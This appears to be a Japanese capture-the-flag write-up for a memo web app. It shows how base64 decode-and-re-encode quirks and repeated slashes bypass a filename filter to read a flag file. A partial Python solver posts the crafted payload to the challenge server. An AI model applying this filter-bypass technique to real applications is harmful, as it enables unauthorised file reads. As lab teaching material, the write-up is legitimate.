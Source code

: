 ```Dockerfile

RUN pip3 install -r requirements.txt

ENV LANG C.UTF-8

RUN chmod 755 -R /var/www
RUN chmod 777 -R /var/www/memo
RUN chmod 644 /var/www/memo/flag
RUN chmod 644 /var/www/memo/VHN1a3VzaGk=
RUN adduser -u 1000 memowow
USER memowow

CMD ["uwsgi", "--ini", "/var/www/uwsgi.ini"]
```
まずは`session["memo"]`のチェックを無視して、`/var/www/memo/flag`を読み取ることを考える。  
`.`と`flag`を使わずに`flag`ファイルを指定できないかと考えると、一度デコードした後に再度エンコードしていることに気づく。  
入力されたファイル名を使えばよいのに不自然だ(メモアプリ全体が不自然だが)。  
文字列`flag`を含んでいないが、デコードして再度エンコードして`flag`となる入力はないだろうか？  
```bash
$ python
~~~
>>> import base64
>>> base64.b64decode("flag")
b'~V\xa0'
>>> base64.b64decode("fla@g")
b'~V\xa0'
base64.b64encode(base64.b64decode("fla@g"))
b'flag'
```
試すと`fla@g`などbase64に関連しない文字は無視されるようだ。  
これで`flag`ファイルを読み取り先として指定できるが、`session["memo"]`の問題がある。  
base64エンコードした結果がファイル名、つまり`flag`となる必要があるので、文字列`flag`をデコードしたバイト列をメモとして与えてやればよい。  
書き込みは禁止されているので`/var/www/memo/flag`は書き換えられないが`session["memo"]`には追加される。  
これで`flag`ファイルを読み取れるかと思うが、メモには8文字以上の制限がある。  
```bash
>>> base64.b64decode("flag")
b'~V\xa0'
len(base64.b64decode("flag"))
3
```
ソースコードをもう一度読むと`with open(f"./memo/{filename}", "rb") as f:`となっている。  
`open`は`/`がいくつあってもよいので、複数つけて8文字以上となるものにすればよい。  
`Incorrect padding`に注意する。  
```bash
>>> base64.b64decode("////////flag")
b'\xff\xff\xff\xff\xff\xff~V\xa0'
>>> len(base64.b64decode("////////flag"))
9
```
必然的に読み取るファイルも`////////flag`と指定する。  
以下のsolver.pyで行う。  
```python
import re
import base64
import requests

URL = "http://133.130.100.34:31415/"

session = requests.Session()

session.get(f"{URL}")

res = session.post(f"{URL}/write", data={"content": base64.b64decode(b"////////flag")})
print(f"[POST] /write: {res.status_code}")

```